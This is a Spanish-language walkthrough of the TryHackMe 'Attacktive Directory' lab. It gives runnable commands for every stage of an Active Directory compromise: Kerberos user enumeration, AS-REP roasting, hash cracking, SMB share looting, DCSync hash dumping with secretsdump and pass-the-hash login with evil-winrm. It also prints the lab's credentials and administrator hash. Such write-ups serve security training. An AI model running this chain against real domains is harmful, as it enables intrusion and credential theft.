# Attacktive Directory


Dificultad -> Medium

Enlace a la máquina -> [TryHackme](https://tryhackme.com/room/attacktivedirectory)

-----------
## WriteUp Attacktive Directory
Para trabajar de forma ordenada, vamos a crear un directorio de trabajo llamado como el nombre de la Máquina. Nos meteremos en el directorio creado y vamos a crear en principio 3 carpetas para empezar a trabajar. Nos meteremos en el directorio nmap y ahora ya sí, empezamos con la fase de reconocimiento

```bash
mkdir <Nombre_CTF>
cd !$
mkdir {nmap,content,exploit}
cd nmap
```
Empezamos esta fase de Reconocimiento, comprobando la conectividad con la máquina ojetivo. Vamos a envíar un paquete y analizar la respuesta. Como vemos en la siguiente imagen, se envía un paquete y se recibe un paquete, lo que indica que la máquina está activa. También fijándonos en el valor del TTL, podemos intuir que estamos ante un Windows. Este valor puede modificarse, pero de normal, si es de 64 o cercano a él, estaremos ante un Linux; y si es de 128 o cercano a él, estaremos ante un Windows. 

```bash
ping -c 1 <IP_Objetivo>
```



La primera tarea, es ver qué puertos tiene esta máquina abiertos. Para ello vamos a emplear nmap con el siguiente comando 

```bash
sudo nmap -p- --open -sS -vvv -n -Pn <IP_Objetivo> -oN <Nombre_archivo>
```

- Parámetos de nmap
  - *-p-* Escanea el rango total de puertos (65535). 
  - *--open* Nos reportará solo los puertos abiertos. 
  - *-sS* (TCP SYN), también conocido como TCP SYN scan o Half-Open Scan. Es un tipo de escaneo más sigiloso que otro tipo de escaneos ya que no completa la conexión TCP, evitando en gran medida que se registre en los logs del sistema objetivo. Sin embargo, algunos sistemas de seguridad si que pueden detectar este tipo de escaneo y tomar medidas.
  - *-vvv* Triple verbose, para ver en consola lo que vaya encontrando nmap
  - *-n* Para no aplicar resolución DNS 
  - *-Pn* No realiza detección de Host. Con este parámetro nmap asumirá que los Host especificados están activos. 
  - *-oN* Genera un archivo de salida en formato nmap, con el nombre que le hayamos especificado


Encontramos abiertos muchos puertos, algo típico en equipos Windows y muchos de los cuales nos pueden ya hacer sospechar que estamos ante un AD. Para no tener que escribir todos estos puertos de forma manual en el segundo escaneo de nmap, lo que podemos hacer es crearnos nuestro propio script, que extraiga estos puertos y nos los pegue. Si no queremos hacer esto, también podemos utilizar el siguiente comando, que nos los va a extraer y mostrar en la salida de consola a partir del archivo generado anteriormente; y simplemente tendremos que copiarlos y pegarlos. 

```bash
grep '^[0-9]' <Nombre_archivo> | cut -d '/' -f1 | sort -u | xargs | tr ' ' ','
```



Como vemos, nos extrae del archivo allPorts (es el nombre que le hemos dado en nuestro caso), los puertos abiertos en el equipo objetivo, listos para copiar y pegar en el siguiente escaneo que realizaremos. 

```bash
nmap -sC -sV -p<Puertos_a_Escanear> <IP_Objetivo> -oN <Nombre_Archivo>
```
Si le hacemos un cat al archivo generado, veremos más información que ya debe hacernos pensar que estamos ante un servidor Windows que actua como un DC (Domain Controler) en una red Active Directory (AD). Vemos varios puertos abiertos interesantes de inspeccionar. 
- Puertos y Servicios Importantes
  - Puerto 53 (Simple DNS Plus)
  - Puerto 88 (Kerberos) --> Autentica usuarios en AD
  - Puerto 135 (RPC) y 139 (NetBIOS) --> Son usados en operaciones de AD para comunicación entre Hosts.
  - Puerto 389 (LDAP sin SSL) --> LDAP permite acceder y gestionar la información de AD. 
  - Puerto 445 (SMB) --> Permite el intercambio de archivos y servicios de red en Sistemas Windows. 
  - Puerto 464 (kpasswd5) --> Gestiona el cambio de contraseñas de Kerberos. 
  - Puerto 636 (LDAPS sobre SSL) --> Proporciona LDAP seguro y encriptado. 
  - Puerto 3389 (RDP) --> Permite acceso remoto al servidor. 
  - Puerto 5985 y 47001 (WinRM) --> Permite la Administración Remota de Windows. 
  - Otros Puertos RPC (49664-49698) --> Se asignan de forma dinámica y son comunes en entornos de AD. 

  También en el reporte de nmap, vemos un nombre de dominio (spookysec.local) que vamos a añadir a nuestro archivo /etc/hosts

  ```bash
  sudo echo "IP_Objetivo spookysec.local" >> /etc/hosts
  ```
  Otra forma de identificar el nombre de dominio si no somos capaces de identificarlo con nmap, es utilizar crackmapexec

```bash
crackmapexec smb <IP_Objetivo> 
```




Una vez lo tenemos identificado, podemos igualmente ejecutar el siguiente comando para añadirlo al /etc/hosts

```bash
echo -e '<IP_Objetivo>\tspookysec.local' | sudo tee -a /etc/hosts
```




Continuando con la resolución del Laboratorio, vamos a inspeccionar el puerto 88 de Kerberos para tratar de enumerar usuarios válidos en el dominio, ya que la plataforma de TryHackme nos proporciona un diccionario llamado userlist.txt y que podemos descargar con el siguiente comando. Para esta tarea de enumerar usuarios, emplearemos la herramienta Kerbrute

```bash
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
```




Pues lanzamos kerbrute. 

```bash
kerbrute userenum -d spookysec.local --dc <IP_Objetivo> userlist.txt -o kerbrute.txt
```



Si le hacemos un cat al archivo generado podremos ver los resultados. Vamos a ver una lista de usuarios válidos en el dominio (16 para ser más exactos), pero en un formato que no nos interesa, luego explicaremos por qué. Así que lo que vamos a hacer, es tratar la salida de este archivo y ponerle un formato en el que solo se muestren los usuarios. Para ello, podemos ejecutar el siguiente comando 

```bash
cat kerbrute.txt | awk -F ' ' '{print $7}' > users_valid.txt
```


Simplemente hemos cogido el archivo kerbrute.txt y lo hemos modificado un poco, para que ahora en el archivo users_valid.txt, solo nos muestren los usuarios válidos. Hacemos esto, porque la idea ahora es utilizar el script GetNPUsers.py de Impacket y tenemos que tener la lista de usuarios en un formato concreto. Este script nos permite realizar un ataque llamado "AS-REP Roasting", que nos permite solicitar un TGT (Ticket Granting Ticket) sin necesidad de conocer la contraseña de los usuarios si tienen la opción de Pre-Autenticación de Kerberos deshabilitada. Si todo funciona de la forma esperada, obtendremos un Hash del TGT que podremos guardar e intentar crackear con herramientas de fuerza bruta o diccionarios. 

```bash
impacket-GetNPUsers spookysec.local/ -usersfile users_valid.txt -dc-ip <IP_Objetivo> -o hashes.txt
```




Si echamos un vistazo al archivo hashes.txt, que es donde hemos guardado la salida, veremos que tenemos el Hash para el usuario svc-admin. Ahora vamos a intentar crackearlo, empleando herramientas como john o hashcat. 

Lo primero que vamos a hacer, es identificar el tipo de hash. La propia página de hashcat, puede sernos de utilidad para identificarlo. Nos copiamos el Hash, vamos a la siguiente Web, pulsamos CTRL + F para realizar una busqueda y pegamos el Hash. Si hay coincidencias, nos llevará hasta el Hash concreto. 

```
https://hashcat.net/wiki/doku.php?id=example_hashes
```



Una vez, hemos identificado el tipo de Hash, podemos emplear hashcat para romperlo. 

```bash
hashcat -m 18200 -a 0 hashes.txt passwordlist.txt -o password.txt
```

El diccionario empleado como vemos es passwordlist.txt, que nos lo proporciona la plataforma Tryhackme. Para descargarlo, utilizamos el siguiente comando


```bash
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
```

Tras un rato esperando, nos revela que las credenciales. Si queremos verlas más adelante, también se nos ha guardado en el archivo password.txt 



De igual forma, podemos utilizar john si nos gusta más. 

```bash
john --format=krb5asrep --wordlist=passwordlist.txt hashes.txt
john --show hashes.txt
```



```
Usuario: svc-admin
Contraseña: management2005
```


Una vez tenemos credenciales válidas, podemos tratar de conectarnos mediante smbmap o smbclient, para ver si podemos ver recursos compartidos o archivos interesantes. La ventaja de smbmap sobre smbclient, es que el primero nos listará los permisos que tenemos sobre cada uno de los recursos compartidos. 

```bash
smbmap -u <Usuario> -p <Contraseña> -H <IP_Objetivo>
```



Si revisamos el recurso backup, veremos algo interesante que vamos a proceder también a descargar a nuestro equipo.

```bash
smbmap -u <Usuario> -p <Contraseña> -H <IP_Objetivo> -r <Recurso>
```




```bash
smbmap -u <Usuario> -p <Contraseña> -H <IP_Objetivo> --download <Recurso/Archivo>
```

Bajo el directorio actual de trabajo se nos habrá descargado el archivo backup_credentials.txt con un nombre eso si bastante feo. Pues se lo cambiamos y lo llamamos backup_creentials.txt

```bash 
mv <Archivo_Descargado> backup_credentials.txt
```
Si le hacemos un cat al archivo backup_credentials.txt, podremos ver su contenido. Nos mostrará lo que parece ser algún tipo de Hash. 




Para solucionar esto de forma rápida, podemos tirar de CyberChef. 

```
https://gchq.github.io/CyberChef/
```

Estando en Cyberchef, le copiamos el Hash y le damos a la Receta "Magic". Esta a veces (solo a veces) puede sernos muy útil ya que de forma automática nos identificará el tipo de Hash y nos dará la solución. En este caso, nos los identifica con un hash en Base64 y nos lo crackea rápidamente. 




Igualmente, ya conociendo el tipo de hash empleado, en este caso Base64, podemos crackearlo desde consola con el siguiente comando 

```bash
echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
```



```
Usuario: backup
Contraseña: backup2517860
```


Lo que nos revela esto, es un nuevo usuario (backup) y sus credenciales. El nombre de este usuario ya es revelador (backup), estará relacionado con respaldo de copias de seguridad, por lo que los privilegios de esta cuenta seguramente sean privilegios algo más elevados que la anterior. Algo que podemos probar, es otro script de Impacket (secretsdump.py). Con esta herramienta podemos comprobar si la cuenta tiene permisos de replicación y podemos extraer los hashes. Si la cuenta tiene permisos de replicación, veremos los hashes de las cuentas del dominio, incluyendo los administradores. (Sabemos que esta cuenta tiene permisos de replicación porque nos lo chiva la propia plataforma de TryHackme)

```bash
impacket-secretsdump -just-dc spookysec.local/<usuario>:<password>@<IP_Objetivo> -o host_hashes.txt
```



Si le hacemos un cat al archivo generado, host_hashes.txt, podremos ver como decíamos los hashes de las cuentas del dominio, entre ellos el del Administrador. Pues ya estamos casi. Tenemos el hash del Administrador, por lo que podemos utilizar por ejemplo la herramienta Evil-WinRM, que permite la autenticación con hashes NTLM. Esto significa que podemos usarlo para conectarnos a un sistema remoto sin necesidad de descifrar las contraseñas. 

```
Usuario: administrator
Hash: 0e0363213e37b94221497260b0bcb4fc
```


```bash
evil-winrm -i <IP_Objetivo> -u administrator -H "Hash_administrator"
```




Conseguimos ganar así, acceso al sistema como Administrador. Si queremos podemos comprobarlo con el comando ipconfig y nos devolverá la IP de la máquina objetivo. Estamos dentro. 

De resto, solo nos queda buscar la Flag, que de normal en este tipo de CTFs, suele encontrarse en el directorio Desktop del usuario en cuestión 

```
cd C:\Users\Administrator\Desktop
type root.txt
```


